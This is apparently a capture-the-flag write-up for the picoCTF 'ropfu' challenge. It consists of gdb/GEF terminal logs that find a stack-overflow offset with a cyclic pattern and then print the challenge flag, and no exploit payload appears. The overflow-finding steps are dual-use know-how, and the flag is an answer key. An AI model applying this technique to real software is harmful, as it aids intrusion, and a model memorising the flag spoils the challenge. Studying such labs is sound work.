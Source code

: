                                                                                                 
┌──(secretK㉿thebattle)-[~/picoCTF/binary_exploitation/ropfu]
└─$ gdb vuln
GNU gdb (Debian 13.2-1) 13.2
Copyright (C) 2023 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
88 commands loaded and 5 functions added for GDB 13.2 in 0.00ms using Python engine 3.11
Reading symbols from vuln...
(No debugging symbols found in vuln)
gef➤  *main
Undefined command: "".  Try "help".
gef➤  b *main
Breakpoint 1 at 0x8049dc1
gef➤  r
Starting program: /home/secretK/picoCTF/binary_exploitation/ropfu/vuln 

Breakpoint 1, 0x08049dc1 in main ()





[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x080e685c  →  0xffffd01c  →  0xffffd216  →  "COLORFGBG=15;0"
$ebx   : 0x080e5000  →  <_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al
$ecx   : 0x0       
$edx   : 0xffffcfb0  →  0x080e5000  →  <_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al
$esp   : 0xffffcf5c  →  0x0804a66d  →  <__libc_start_main+1309> add esp, 0x10
$ebp   : 0x0       
$esi   : 0x080e5000  →  <_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al
$edi   : 0x080e5000  →  <_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al
$eip   : 0x08049dc1  →  <main+0> endbr32 
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
───────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcf5c│+0x0000: 0x0804a66d  →  <__libc_start_main+1309> add esp, 0x10        ← $esp
0xffffcf60│+0x0004: 0x00000001
0xffffcf64│+0x0008: 0xffffd014  →  0xffffd1e1  →  "/home/secretK/picoCTF/binary_exploitation/ropfu/vu[...]"
0xffffcf68│+0x000c: 0xffffd01c  →  0xffffd216  →  "COLORFGBG=15;0"
0xffffcf6c│+0x0010: 0xffffcfb0  →  0x080e5000  →  <_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al
0xffffcf70│+0x0014: 0x00000000
0xffffcf74│+0x0018: 0x00000000
0xffffcf78│+0x001c: 0x00000000
─────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8049dbc <vuln+55>        mov    ebx, DWORD PTR [ebp-0x4]
    0x8049dbf <vuln+58>        leave  
    0x8049dc0 <vuln+59>        ret    
 →  0x8049dc1 <main+0>         endbr32 
    0x8049dc5 <main+4>         lea    ecx, [esp+0x4]
    0x8049dc9 <main+8>         and    esp, 0xfffffff0
    0x8049dcc <main+11>        push   DWORD PTR [ecx-0x4]
    0x8049dcf <main+14>        push   ebp
    0x8049dd0 <main+15>        mov    ebp, esp
─────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x8049dc1 in main (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x8049dc1 → main()
────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  




┌──(secretK㉿thebattle)-[~/picoCTF/binary_exploitation/ropfu]
└─$ subl readme.md
                                                                                                
┌──(secretK㉿thebattle)-[~/picoCTF/binary_exploitation/ropfu]
└─$ gdb vuln          
GNU gdb (Debian 13.2-1) 13.2
Copyright (C) 2023 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
88 commands loaded and 5 functions added for GDB 13.2 in 0.00ms using Python engine 3.11
Reading symbols from vuln...
(No debugging symbols found in vuln)
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: /home/secretK/picoCTF/binary_exploitation/ropfu/vuln 
How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
0x61616168 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffcf10  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$ebx   : 0x61616166 ("faaa"?)
$ecx   : 0x080e5300  →  <_IO_2_1_stdin_+0> mov BYTE PTR [edx], ah
$edx   : 0xffffcf74  →  0x00000000
$esp   : 0xffffcf30  →  "iaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaaua[...]"
$ebp   : 0x61616167 ("gaaa"?)
$esi   : 0x080e5000  →  <_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al
$edi   : 0x080e5000  →  <_GLOBAL_OFFSET_TABLE_+0> add BYTE PTR [eax], al
$eip   : 0x61616168 ("haaa"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
───────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcf30│+0x0000: "iaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaaua[...]"    ← $esp
0xffffcf34│+0x0004: "jaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaava[...]"
0xffffcf38│+0x0008: "kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa[...]"
0xffffcf3c│+0x000c: "laaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxa[...]"
0xffffcf40│+0x0010: "maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaaya[...]"
0xffffcf44│+0x0014: "naaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"
0xffffcf48│+0x0018: "oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"
0xffffcf4c│+0x001c: "paaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"
─────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x61616168
─────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x61616168 in ?? (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────── trace ────
────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  pattern offset haaa
[+] Searching for '61616168'/'68616161' with period=4
[+] Found at offset 25 (little-endian search) likely
gef➤  r
Starting program: /home/secretK/picoCTF/binary_exploitation/ropfu/vuln 
How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!



picoCTF{5n47ch_7h3_5h311_e81af635}